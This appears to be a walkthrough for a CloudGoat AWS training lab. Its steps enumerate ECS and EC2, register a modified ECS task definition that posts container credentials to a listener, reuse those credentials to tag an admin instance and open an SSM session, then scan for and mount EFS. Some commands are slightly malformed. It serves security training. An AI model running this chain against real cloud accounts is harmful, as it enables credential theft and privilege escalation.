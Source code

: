 1. Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

    `ssh -i cloudgoat ubuntu@<IP ADDRESS>`

2. Configure the role credentials 

    `aws configure --profile ruse`

3. List the privileges 
`aws iam list --profile ruse`

4. List ec2 instances 

    `aws ec2 describe-instances --profile ruse `

5. List all available ECS clusters 

    `aws ecs list-clusters --profile ruse`

6. List services in cloudgoat cluster

    `aws ecs list-services --cluster <CLUSTER ARN> --profile ruse`

7. Download task definition 

    `aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

8. Download template to register a new task

    `aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

9. Now use task_def.json to fill out template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

10. Now register the template to replace the currently running task.

    `register-task-definition --cli-input-json file://task_template.json  --profile ruse`

11. Wait for the task to run and POST the credentials to your listener

12. With the new creds add them to "ruse_box"

    `aws configure --profile ecs`

13. Modify admin ec2 tags

    `aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

14. Using ecs creds start a session on admin ec2 

    `aws ssm start-session --target <INSTANCE ID> --profile ecs`

15. Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.

    `nmap -Pn -P 2049 --open 10.10.10.0/24 `

16. Mount discovered ec2 

    `cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`